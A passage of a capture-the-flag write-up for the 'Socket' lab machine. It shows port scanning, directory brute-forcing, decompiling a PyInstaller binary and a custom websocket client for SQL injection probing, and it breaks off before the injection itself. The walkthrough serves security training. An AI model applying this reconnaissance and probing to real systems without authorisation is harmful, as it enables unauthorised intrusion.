

Socket is a Medium Difficulty Linux machine that requires reversing a Linux/Windows desktop application. This reveals an endpoint that is vulnerable to `SQL` injection via a websocket. Dumping the database leaks hashes that, once cracked, yield `SSH` access to the box. Finally, a `PyInstaller` script can be executed with elevated privileges that grant root access to the machine.

## Recon

I start my enumeration with `nmap` and scan all ports on the target machine.

```ansi
$ nmap -p- --min-rate 10000 10.10.11.206
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-15 12:06 CEST
Nmap scan report for 10.10.11.206
Host is up (0.025s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5789/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 6.45 seconds
```

It shows three open TCP ports, `SSH` (22), `HTTP` (80) and an unknown service on 5789:

```ansi
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-15 12:07 CEST
Nmap scan report for 10.10.11.206
Host is up (0.031s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://qreader.htb/
5789/tcp open  unknown
| fingerprint-strings:
|   GenericLines, GetRequest, HTTPOptions, RTSPRequest:
|     HTTP/1.1 400 Bad Request
|     Date: Sat, 15 Jul 2023 08:07:10 GMT
|     Server: Python/3.10 websockets/10.4
|     Content-Length: 77
|     Content-Type: text/plain
|     Connection: close
|     Failed to open a WebSocket connection: did not receive a valid HTTP request.
|   Help, SSLSessionReq:
|     HTTP/1.1 400 Bad Request
|     Date: Sat, 15 Jul 2023 08:07:26 GMT
|     Server: Python/3.10 websockets/10.4
|     Content-Length: 77
|     Content-Type: text/plain
|     Connection: close
|_    Failed to open a WebSocket connection: did not receive a valid HTTP request.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5789-TCP:V=7.93%I=7%D=7/15%Time=64B26FCE%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nDate:\x20Sat,\x201
SF:5\x20Jul\x202023\x2008:07:10\x20GMT\r\nServer:\x20Python/3\.10\x20webso
SF:ckets/10\.4\r\nContent-Length:\x2077\r\nContent-Type:\x20text/plain\r\n
SF:Connection:\x20close\r\n\r\nFailed\x20to\x20open\x20a\x20WebSocket\x20c
SF:onnection:\x20did\x20not\x20receive\x20a\x20valid\x20HTTP\x20request\.\
SF:n")%r(GetRequest,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nDate:\x20Sat
SF:,\x2015\x20Jul\x202023\x2008:07:10\x20GMT\r\nServer:\x20Python/3\.10\x2
SF:0websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Type:\x20text/pla
SF:in\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x20a\x20WebSocke
SF:t\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x20HTTP\x20requ
SF:est\.\n")%r(HTTPOptions,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nDate:
SF:\x20Sat,\x2015\x20Jul\x202023\x2008:07:10\x20GMT\r\nServer:\x20Python/3
SF:\.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Type:\x20t
SF:ext/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x20a\x20W
SF:ebSocket\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x20HTTP\
SF:x20request\.\n")%r(RTSPRequest,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nDate:\x20Sat,\x2015\x20Jul\x202023\x2008:07:10\x20GMT\r\nServer:\x20P
SF:ython/3\.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Typ
SF:e:\x20text/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x2
SF:0a\x20WebSocket\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x
SF:20HTTP\x20request\.\n")%r(Help,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nDate:\x20Sat,\x2015\x20Jul\x202023\x2008:07:26\x20GMT\r\nServer:\x20P
SF:ython/3\.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Typ
SF:e:\x20text/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x2
SF:0a\x20WebSocket\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x
SF:20HTTP\x20request\.\n")%r(SSLSessionReq,F4,"HTTP/1\.1\x20400\x20Bad\x20
SF:Request\r\nDate:\x20Sat,\x2015\x20Jul\x202023\x2008:07:26\x20GMT\r\nSer
SF:ver:\x20Python/3\.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nCo
SF:ntent-Type:\x20text/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x
SF:20open\x20a\x20WebSocket\x20connection:\x20did\x20not\x20receive\x20a\x
SF:20valid\x20HTTP\x20request\.\n");
Service Info: Host: qreader.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.25 seconds
```

### SSH - 20

Based on the [OpenSSH](https://packages.ubuntu.com/search?keywords=openssh-server) and [Apache](https://packages.ubuntu.com/search?keywords=apache2) versions, the host is likely running Ubuntu 22.04 jammy.

### HTTP - TCP 80

From the `nmap` I can see it showing a redirect to `http://qreader.htb/`. So I add this endpoint to my hosts file (`sudo vim /etc/hosts`). Opening up the URL in Firefox, Wappalyzer reveals the following frameworks.


The site hosts a QR-code reading/generation service:


This website allows me to embed a message in a QR code, which I can download and share around. I can then upload this QR code again via `Scan Image`, and the application will print back the initial message I embedded in the QR code. Browsing around, I don’t seem to find anything else worthwhile so I start a gobuster directory scan:

```bash
┌──(nickvd㉿kali)-[~/Boxes/Socket]
└─$ gobuster dir -u http://qreader.htb -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -o gobuster_scan.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://qreader.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/07/15 12:30:52 Starting gobuster in directory enumeration mode
===============================================================
/report               (Status: 200) [Size: 4161]
/.                    (Status: 200) [Size: 6992]
/embed                (Status: 405) [Size: 153]
/reader               (Status: 405) [Size: 153]
/server-status        (Status: 403) [Size: 276]
Progress: 42964 / 43008 (99.90%)
===============================================================
2023/07/15 12:30:59 Finished
===============================================================
```

`/reader` and `/embed` are the endpoints for QR <–> text. `/report` is a form but doesn’t seem to include anything interesting. And then `/server-status` is an endpoint for which I don’t have permissions yet.

Going back to the home page (`/`) I stumbled upon a set of links to download the `Windows` and `Linux` version of the app. I download both `QReader_win_v0.0.2.zip` and `QReader_lin_v0.0.2.zip` to my local machine.


### **Websockets - TCP 5789**

Port `5789` isn’t a predefined port, so it appeared unknown in my `nmap` scan. Sending a `GET` request with `curl` reveals that I’m dealing with a websocket server written in Python.

```bash
┌──(nickvd㉿kali)-[~/Boxes/Socket]
└─$ curl -i http://qreader.htb:5789
HTTP/1.1 426 Upgrade Required
Upgrade: websocket
Date: Sun, 15 Jul 2023 10:07:23 GMT
Server: Python/3.10 websockets/10.4
Content-Length: 156
Content-Type: text/plain
Connection: close

Failed to open a WebSocket connection: empty Connection header.

You cannot access a WebSocket server directly with a browser. You need a WebSocket client.
```

Installing `wscat` with `npm install -g wscat` allows me to inspect this endpoint:

```bash
┌──(nickvd㉿kali)-[~/Boxes/Socket/binz/app]
└─$ wscat --connect qreader.htb:5789
Connected (press CTRL+C to quit)
>
Disconnected (code: 1011, reason: "")

┌──(nickvd㉿kali)-[~/Boxes/Socket/binz/app]
└─$ wscat --connect qreader.htb:5789
Connected (press CTRL+C to quit)
> 1
< {"paths": {"/update": "Check for updates", "/version": "Get version information"}}
Disconnected (code: 1000, reason: "")

┌──(nickvd㉿kali)-[~/Boxes/Socket/binz/app]
└─$ wscat --connect qreader.htb:5789
Connected (press CTRL+C to quit)
> {}
< {"paths": {"/update": "Check for updates", "/version": "Get version information"}}
Disconnected (code: 1000, reason: "")
```

The implementation is interesting as the connection gets closed after sending a message. After a few more dummy messages, I learn that the websocket has two more endpoints `/update` and `/version`. This is unexpected as I haven’t seen this behaviour for websockets before. There are several things I could do to enumerate these endpoints, but I’d need a client and some idea about the messages that are sent over the socket. I’ll go look at the binaries first, as they will likely give information about how to interact with the websocket

### Binary Inspection

Unzipping the Linux package creates an `app` directory and a `test.png` file:

```ansi
┌──(nickvd㉿kali)-[~/Boxes/Socket/binz]
└─$ unzip QReader_lin_v0.0.2.zip
Archive:  QReader_lin_v0.0.2.zip
   creating: app/
  inflating: app/qreader
  inflating: app/test.png

┌──(nickvd㉿kali)-[~/Boxes/Socket/binz]
└─$ file app/qreader
app/qreader: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3f71fafa6e2e915b9bed491dd97e1bab785158de, for GNU/Linux 2.6.32, stripped

┌──(nickvd㉿kali)-[~/Boxes/Socket/binz]
└─$ file app/test.png
app/test.png: PNG image data, 500 x 500, 1-bit grayscale, non-interlaced
```

The test image is a QR code which decodes to `kavigihan`, who is the author of this challenge.


Running strings on the `qreader` binary returns a lot of strings. So decide to run the binary through `readelf`:

```ansi
┌──(ncikvd㉿kali)-[~/Boxes/Socket/binz]
└─$ readelf -e app/qreader
ELF Header:
  Magic:   7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00
  Class:                             ELF64
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              EXEC (Executable file)
  Machine:                           Advanced Micro Devices X86-64
  Version:                           0x1
  Entry point address:               0x402535
  Start of program headers:          64 (bytes into file)
  Start of section headers:          108585280 (bytes into file)
  Flags:                             0x0
  Size of this header:               64 (bytes)
  Size of program headers:           56 (bytes)
  Number of program headers:         11
  Size of section headers:           64 (bytes)
  Number of section headers:         28
  Section header string table index: 27

Section Headers:
  [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align
  [ 0]                   NULL             0000000000000000  00000000
       0000000000000000  0000000000000000           0     0     0
  [ 1] .interp           PROGBITS         00000000004002a8  000002a8
       000000000000001c  0000000000000000   A       0     0     1
  [ 2] .note.gnu.bu[...] NOTE             00000000004002c4  000002c4
       0000000000000024  0000000000000000   A       0     0     4
  [ 3] .note.ABI-tag     NOTE             00000000004002e8  000002e8
       0000000000000020  0000000000000000   A       0     0     4
  [ 4] .gnu.hash         GNU_HASH         0000000000400308  00000308
       0000000000000030  0000000000000000   A       5     0     8
  [ 5] .dynsym           DYNSYM           0000000000400338  00000338
       00000000000007e0  0000000000000018   A       6     1     8
  [ 6] .dynstr           STRTAB           0000000000400b18  00000b18
       0000000000000337  0000000000000000   A       0     0     1
  [ 7] .gnu.version      VERSYM           0000000000400e50  00000e50
       00000000000000a8  0000000000000002   A       5     0     2
  [ 8] .gnu.version_r    VERNEED          0000000000400ef8  00000ef8
       00000000000000b0  0000000000000000   A       6     3     8
  [ 9] .rela.dyn         RELA             0000000000400fa8  00000fa8
       0000000000000060  0000000000000018   A       5     0     8
  [10] .rela.plt         RELA             0000000000401008  00001008
       0000000000000780  0000000000000018  AI       5    22     8
  [11] .init             PROGBITS         0000000000402000  00002000
       000000000000001a  0000000000000000  AX       0     0     4
  [12] .plt              PROGBITS         0000000000402020  00002020
       0000000000000510  0000000000000010  AX       0     0     16
  [13] .text             PROGBITS         0000000000402530  00002530
       00000000000056a2  0000000000000000  AX       0     0     16
  [14] .fini             PROGBITS         0000000000407bd4  00007bd4
       0000000000000009  0000000000000000  AX       0     0     4
  [15] .rodata           PROGBITS         0000000000408000  00008000
       00000000000020a8  0000000000000000   A       0     0     32
  [16] .eh_frame_hdr     PROGBITS         000000000040a0a8  0000a0a8
       0000000000000324  0000000000000000   A       0     0     4
  [17] .eh_frame         PROGBITS         000000000040a3d0  0000a3d0
       0000000000001150  0000000000000000   A       0     0     8
  [18] .init_array       INIT_ARRAY       000000000040cde8  0000bde8
       0000000000000008  0000000000000008  WA       0     0     8
  [19] .fini_array       FINI_ARRAY       000000000040cdf0  0000bdf0
       0000000000000008  0000000000000008  WA       0     0     8
  [20] .dynamic          DYNAMIC          000000000040cdf8  0000bdf8
       0000000000000200  0000000000000010  WA       6     0     8
  [21] .got              PROGBITS         000000000040cff8  0000bff8
       0000000000000008  0000000000000008  WA       0     0     8
  [22] .got.plt          PROGBITS         000000000040d000  0000c000
       0000000000000298  0000000000000008  WA       0     0     8
  [23] .data             PROGBITS         000000000040d298  0000c298
       0000000000000004  0000000000000000  WA       0     0     1
  [24] .bss              NOBITS           000000000040d2a0  0000c29c
       00000000000173f0  0000000000000000  WA       0     0     32
  [25] .comment          PROGBITS         0000000000000000  0000c29c
       000000000000005c  0000000000000001  MS       0     0     1
  [26] pydata            PROGBITS         0000000000000000  0000c2f8
       0000000006781d4e  0000000000000000           0     0     1
  [27] .shstrtab         STRTAB           0000000000000000  0678e046
       00000000000000fa  0000000000000000           0     0     1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  D (mbind), l (large), p (processor specific)

Program Headers:
  Type           Offset             VirtAddr           PhysAddr
                 FileSiz            MemSiz              Flags  Align
  PHDR           0x0000000000000040 0x0000000000400040 0x0000000000400040
                 0x0000000000000268 0x0000000000000268  R      0x8
  INTERP         0x00000000000002a8 0x00000000004002a8 0x00000000004002a8
                 0x000000000000001c 0x000000000000001c  R      0x1
      [Requesting program interpreter: /lib64/ld-linux-x86-64.so.2]
  LOAD           0x0000000000000000 0x0000000000400000 0x0000000000400000
                 0x0000000000001788 0x0000000000001788  R      0x1000
  LOAD           0x0000000000002000 0x0000000000402000 0x0000000000402000
                 0x0000000000005bdd 0x0000000000005bdd  R E    0x1000
  LOAD           0x0000000000008000 0x0000000000408000 0x0000000000408000
                 0x0000000000003520 0x0000000000003520  R      0x1000
  LOAD           0x000000000000bde8 0x000000000040cde8 0x000000000040cde8
                 0x00000000000004b4 0x00000000000178a8  RW     0x1000
  DYNAMIC        0x000000000000bdf8 0x000000000040cdf8 0x000000000040cdf8
                 0x0000000000000200 0x0000000000000200  RW     0x8
  NOTE           0x00000000000002c4 0x00000000004002c4 0x00000000004002c4
                 0x0000000000000044 0x0000000000000044  R      0x4
  GNU_EH_FRAME   0x000000000000a0a8 0x000000000040a0a8 0x000000000040a0a8
                 0x0000000000000324 0x0000000000000324  R      0x4
  GNU_STACK      0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000  RW     0x10
  GNU_RELRO      0x000000000000bde8 0x000000000040cde8 0x000000000040cde8
                 0x0000000000000218 0x0000000000000218  R      0x1

 Section to Segment mapping:
  Segment Sections...
   00
   01     .interp
   02     .interp .note.gnu.build-id .note.ABI-tag .gnu.hash .dynsym .dynstr .gnu.version .gnu.version_r .rela.dyn .rela.plt
   03     .init .plt .text .fini
   04     .rodata .eh_frame_hdr .eh_frame
   05     .init_array .fini_array .dynamic .got .got.plt .data .bss
   06     .dynamic
   07     .note.gnu.build-id .note.ABI-tag
   08     .eh_frame_hdr
   09
   10     .init_array .fini_array .dynamic .got
```

One thing that caught my eye is the `pydata` section, which I’m not used to seeing in other ELF binaries. Searching for `elf pydata`, the first link that my Google search returns is a [wiki article](https://github.com/extremecoders-re/pyinstxtractor/wiki/Extracting-Linux-ELF-binaries) in the `pyinstxtractor` GitHub repository. From reading through the repository, it seems this tool can extract the original Python code from an ELF binary bundled with PyInstaller.

> PyInstaller bundles a Python application and all its dependencies into a single package. The user can run the packaged app without installing a Python interpreter or any modules. Reference: [https://pyinstaller.org/](https://pyinstaller.org/)

To confirm, I once more run strings against the binary:

```ansi
┌──(nickvd㉿kali)-[~/Boxes/Socket/binz/app]
└─$ strings qreader | grep -i pyinstaller
Cannot open PyInstaller archive from executable (%s) or external archive (%s)
```

And indeed, this binary is bundled Python application. When I run the program it starts a small PyQT GUI application.



It offers similar functionality as the application and allows users to read and embed messages into QR codes. But while using the application, I keep running into connection errors.


That’s when I decided to use `pyinstrxtractor` to unpack the binary and try to extract the Python source code. First, I use `objcopy` to dump the `pydata` section into a separate file on disk.

```ansi
┌──(nickvd㉿kali)-[~/Boxes/Socket/binz/app]
└─$ objcopy --dump-section pydata=pydata.dump qreader

┌──(nickvd㉿kali)-[~/Boxes/Socket/binz/app]
└─$ ls -alh
total 208M
drwxr-xr-x 2 nickvd nickvd 4.0K Jul 15 10:48 .
drwxr-xr-x 3 nickvd nickvd 4.0K Jul 15 10:22 ..
-rw-r--r-- 1 nickvd nickvd 104M Jul 15 10:48 pydata.dump
-rwxr-xr-x 1 nickvd nickvd 104M Jul 15 10:48 qreader
-rwxr-xr-x 1 nickvd nickvd  541 Nov 23  2022 test.png
```

From here, I use `pyinstrxtractor` to extract the original `pyc` files from the dump.

```ansi
┌──(nickvd㉿kali)-[~/Boxes2/Socket/binz/app]
└─$ python3 /opt/pyinstxtractor/pyinstxtractor.py pydata.dump
[+] Processing pydata.dump
[+] Pyinstaller version: 2.1+
[+] Python version: 3.10
[+] Length of package: 108535118 bytes
[+] Found 305 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_subprocess.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: pyi_rth_pkgutil.pyc
[+] Possible entry point: pyi_rth_multiprocessing.pyc
[+] Possible entry point: pyi_rth_pyqt5.pyc
[+] Possible entry point: pyi_rth_setuptools.pyc
[+] Possible entry point: pyi_rth_pkgres.pyc
[+] Possible entry point: qreader.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
[!] Please run this script in Python 3.10 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: pydata.dump

You can now use a python decompiler on the pyc files within the extracted directory
```

> There’s a warning message that I didn’t notice at the time. I always have the latest Python available on my path. In this case that was python 3.11. Ideally you match the python version to extract with the Python version bundled in the package. I missed this but got lucky to get the code extracted correctly.

I need a decent Python decompiler to transform the `pyc` code back into readable Python code. The `pyinstratxractor` wiki seems to recommend [uncompyle6](https://github.com/rocky/python-uncompyle6/#installation), but this is where things started to take a turn for the worse. `uncompyle6` is picky about the Python versions it supports. By default, I always have the latest Python installed on my machine. But to run `uncompyle6` I need to grab an older version first. In this case, I install Python 3.9 with pyenv:

```ansi
┌──(nickvd㉿kali)-[~/Boxes/Socket/binz/app]
└─$ pyenv install 3.9.0
Downloading Python-3.9.0.tar.xz...
-> https://www.python.org/ftp/python/3.9.0/Python-3.9.0.tar.xz
Installing Python-3.9.0...
patching file Misc/NEWS.d/next/Build/2021-10-11-16-27-38.bpo-45405.iSfdW5.rst
patching file configure
patching file configure.ac
Installed Python-3.9.0 to /home/vagrant/.local/share/pyenv/versions/3.9.0

┌──(nickvd㉿kali)-[~/Boxes/Socket/binz/app]
└─$ pyenv global 3.9.0
```

With the correct Python version in place, I can now follow the [README.md](http://README.md) of the `uncompyle6` repo to install the package

```ansi
┌──(nickvd㉿kali)-[~/Boxes/Socket/binz/app]
└─$ pip3 install uncompyle6
Collecting uncompyle6
  Using cached uncompyle6-3.9.0-py38-none-any.whl (381 kB)
Collecting xdis<6.1.0,>=6.0.2
  Using cached xdis-6.0.5-py38-none-any.whl (144 kB)
Collecting spark-parser<1.9.0,>=1.8.9
  Using cached spark_parser-1.8.9-py3-none-any.whl (17 kB)
Collecting click
  Using cached click-8.1.5-py3-none-any.whl (98 kB)
Collecting six>=1.10.0
  Using cached six-1.16.0-py2.py3-none-any.whl (11 kB)
Installing collected packages: click, six, xdis, spark-parser, uncompyle6
Successfully installed click-8.1.5 six-1.16.0 spark-parser-1.8.9 uncompyle6-3.9.0 xdis-6.0.5
WARNING: You are using pip version 20.2.3; however, version 23.1.2 is available.
You should consider upgrading via the '/home/nickvd/.local/share/pyenv/versions/3.9.0/bin/python3.9 -m pip install --upgrade pip' command.
```

Quite a few files were extracted from the package, but the one that immediately caught my eye was the `qreader.pyc` file. I assume that this will contain the main application code. So I decided to run `uncompyle` against it.

```ansi
┌──(nickvd㉿kali)-[~/Boxes2/Socket/binz/app]
└─$ uncompyle6 ./pydata.dump_extracted/qreader.pyc ./qreader.py
# uncompyle6 version 3.9.0
# Python bytecode version base 3.10.0 (3439)
# Decompiled from: Python 3.9.0 (default, Jul 15 2023, 13:14:16)
# [GCC 12.2.0]
# Embedded file name: qreader.py

Unsupported Python version, 3.10.0, for decompilation

# Unsupported bytecode in file ./pydata.dump_extracted/qreader.pyc
# Unsupported Python version, 3.10.0, for decompilation
File './qreader.py' doesn't exist. Skipped
# decompiled 0 files: 0 okay, 0 failed
```

But it failed; it turns out that the version uncompyle runs should match the pyc bytecode version. And this is where the mismatch occurs, and it turns out that `uncompyle` doesn’t work yet with any Python version above 3.9. Luckily for me, the `pyinstxtractor` has another recommendation [Decompyle++](https://github.com/zrax/pycdc) or `pycdc` as it seems to be renamed. But there’s a bit more involved to get it going:

```ansi
┌──(nickvd㉿kali)-[~/Sources]
└─$ git clone https://github.com/zrax/pycdc.git
Cloning into 'pycdc'...
remote: Enumerating objects: 2523, done.
remote: Counting objects: 100% (901/901), done.
remote: Compressing objects: 100% (277/277), done.
remote: Total 2523 (delta 680), reused 677 (delta 622), pack-reused 1622
Receiving objects: 100% (2523/2523), 709.16 KiB | 1.78 MiB/s, done.
Resolving deltas: 100% (1582/1582), done.

┌──(nickvd㉿kali)-[~/Sources]
└─$ cd pycdc

┌──(nickvd㉿kali)-[~/Sources/pycdc]
└─$ mkdir build

┌──(nickvd㉿kali)-[~/Sources/pycdc]
└─$ cd build

┌──(nickvd㉿kali)-[~/Sources/pycdc/build]
└─$ cmake ..
-- The C compiler identification is GNU 12.2.0
-- The CXX compiler identification is GNU 12.2.0
-- Detecting C compiler ABI info
-- Detecting C compiler ABI info - done
-- Check for working C compiler: /usr/bin/cc - skipped
-- Detecting C compile features
-- Detecting C compile features - done
-- Detecting CXX compiler ABI info
-- Detecting CXX compiler ABI info - done
-- Check for working CXX compiler: /usr/bin/c++ - skipped
-- Detecting CXX compile features
-- Detecting CXX compile features - done
-- Found PythonInterp: /usr/bin/python3 (found version "3.11.4")
-- Configuring done
-- Generating done
-- Build files have been written to: /home/vagrant/Sources/pycdc/build

┌──(nickvd㉿kali)-[~/Sources/pycdc/build]
└─$ make

<...snip..>
[100%] Linking CXX executable pycdc
[100%] Built target pycdc

┌──(nickvd㉿kali)-[~/Sources/pycdc/build]
└─$ sudo make install
[ 85%] Built target pycxx
[ 90%] Built target pycdas
[100%] Built target pycdc
Install the project...
-- Install configuration: ""
-- Installing: /usr/local/bin/pycdas
-- Installing: /usr/local/bin/pycdc
```

This adds the `pycdc` binary to my path, and I can take another attempt ad decompiling the Python bytecode:

```python title="decompiled_qreader.pyc"
import cv2
import sys
import qrcode
import tempfile
import random
import os
from PyQt5.QtWidgets import *
from PyQt5 import uic, QtGui
import asyncio
import websockets
import json
VERSION = '0.0.2'
ws_host = 'ws://ws.qreader.htb:5789'
icon_path = './icon.png'

def setup_env():
    global tmp_file_name
    pass
# WARNING: Decompyle incomplete

class MyGUI(QMainWindow):

    def __init__(self = None):
        super(MyGUI, self).__init__()
        uic.loadUi(tmp_file_name, self)
        self.show()
        self.current_file = ''
        self.actionImport.triggered.connect(self.load_image)
        self.actionSave.triggered.connect(self.save_image)
        self.actionQuit.triggered.connect(self.quit_reader)
        self.actionVersion.triggered.connect(self.version)
        self.actionUpdate.triggered.connect(self.update)
        self.pushButton.clicked.connect(self.read_code)
        self.pushButton_2.clicked.connect(self.generate_code)
        self.initUI()


    def initUI(self):
        self.setWindowIcon(QtGui.QIcon(icon_path))


    def load_image(self):
        options = QFileDialog.Options()
        (filename, _) = QFileDialog.getOpenFileName(self, 'Open File', '', 'All Files (*)')
        if filename != '':
            self.current_file = filename
            pixmap = QtGui.QPixmap(self.current_file)
            pixmap = pixmap.scaled(300, 300)
            self.label.setScaledContents(True)
            self.label.setPixmap(pixmap)
            return None


    def save_image(self):
        options = QFileDialog.Options()
        (filename, _) = QFileDialog.getSaveFileName(self, 'Save File', '', 'PNG (*.png)', options, **('options',))
        if filename != '':
            img = self.label.pixmap()
            img.save(filename, 'PNG')
            return None


    def read_code(self):
        if self.current_file != '':
            img = cv2.imread(self.current_file)
            detector = cv2.QRCodeDetector()
            (data, bbox, straight_qrcode) = detector.detectAndDecode(img)
            self.textEdit.setText(data)
            return None
        None.statusBar().showMessage('[ERROR] No image is imported!')


    def generate_code(self):
        qr = qrcode.QRCode(1, qrcode.constants.ERROR_CORRECT_L, 20, 2, **('version', 'error_correction', 'box_size', 'border'))
        qr.add_data(self.textEdit.toPlainText())
        qr.make(True, **('fit',))
        img = qr.make_image('black', 'white', **('fill_color', 'back_color'))
        img.save('current.png')
        pixmap = QtGui.QPixmap('current.png')
        pixmap = pixmap.scaled(300, 300)
        self.label.setScaledContents(True)
        self.label.setPixmap(pixmap)


    def quit_reader(self):
        if os.path.exists(tmp_file_name):
            os.remove(tmp_file_name)
        sys.exit()


    def version(self):
        response = asyncio.run(ws_connect(ws_host + '/version', json.dumps({
            'version': VERSION })))
        data = json.loads(response)
        if 'error' not in data.keys():
            version_info = data['message']
            msg = f'''[INFO] You have version {version_info['version']} which was released on {version_info['released_date']}'''
            self.statusBar().showMessage(msg)
            return None
        error = None['error']
        self.statusBar().showMessage(error)


    def update(self):
        response = asyncio.run(ws_connect(ws_host + '/update', json.dumps({
            'version': VERSION })))
        data = json.loads(response)
        if 'error' not in data.keys():
            msg = '[INFO] ' + data['message']
            self.statusBar().showMessage(msg)
            return None
        error = None['error']
        self.statusBar().showMessage(error)

    __classcell__ = None

async def ws_connect(url, msg):
    pass
# WARNING: Decompyle incomplete

def main():
    (status, e) = setup_env()
    if not status:
        print('[-] Problem occured while setting up the env!')
    app = QApplication([])
    window = MyGUI()
    app.exec_()

if __name__ == '__main__':
    main()
    return None
```

The endpoint that the application is using for its websocket connection is `ws.qreader.htb:5789`, this explains the error messages from earlier. Adding this to my hosts file resolves these errors, and I can send messages to the `/version` and `/updates` endpoint via the app. From reading the source code, I can now see how the `version` endpoint works:

```ansi
┌──(nickvd㉿kali)-[~/Boxes/Socket]
└─$ wscat --connect qreader.htb:5789/version
Connected (press CTRL+C to quit)
> {"version": 1}
< {"message": "Invalid version!"}
Disconnected (code: 1000, reason: "")

┌──(nickvd㉿kali)-[~/Boxes/Socke
└─$ wscat --connect qreader.htb:5789/version
Connected (press CTRL+C to quit)
> {"version": "0.0.2"}
< {"message": {"id": 2, "version": "0.0.2", "released_date": "26/09/2022", "downloads": 720}}
Disconnected (code: 1000, reason: "")
```

### Hindsight 20/20

After completing the machine, I learned that I took the more difficult route to find the vulnerable endpoint. The part of decompiling the binary to extract the Python source code was a bit of a rabbit hole. As it turns out, executing the binary with `Wireshark` on made it much easier to learn what was happening over the wire.

## Shell as tkeller

### SQLI

Looking at the response from the `version` request, it seems the client is sending the version to the server, and then the server responds with details:

```json
{
  "message": {
    "id": 2,
    "version": "0.0.2",
    "released_date": "26/09/2022",
    "downloads": 720
  }
}
```

It might be reading this from a database, so I will try and see what happens when I start sending invalid or broken payloads.

But due to the weird implementation of the websocket server my connection closes after each message I send. This makes using `wscat` rather inconvenient because I need to keep restarting the client. So I decided to write a small custom Python client that is slightly more resilient to this weird behaviour.

```python
import json
import sys
from websockets.sync.client import connect
from cmd import Cmd

ws = "ws://ws.qreader.htb:5789/version"

def get_version(version: str):
    message = ""
    try:
        with connect(ws) as websocket:
            msg = {"version": version}
            websocket.send(json.dumps(msg))
            message = websocket.recv()
    except Exception as ex:
        print(ex, file=sys.stderr)
    finally:
        return message

class Term(Cmd):
    def __init__(self):
        super().__init__()
        self.prompt = "> "

    def default(self, line):
        response = get_version(line)
        print(f"< {response}")

    def do_exit(self, args):
        return True

term = Term()
term.cmdloop()
```

Saving the script as `ws_cmd.py` and installing the websockets library with `pip install websockets` I now I have a more resilient CLI client:

```ansi
┌──(nickvd㉿kali)-[~/Boxes/Socket/scripts]
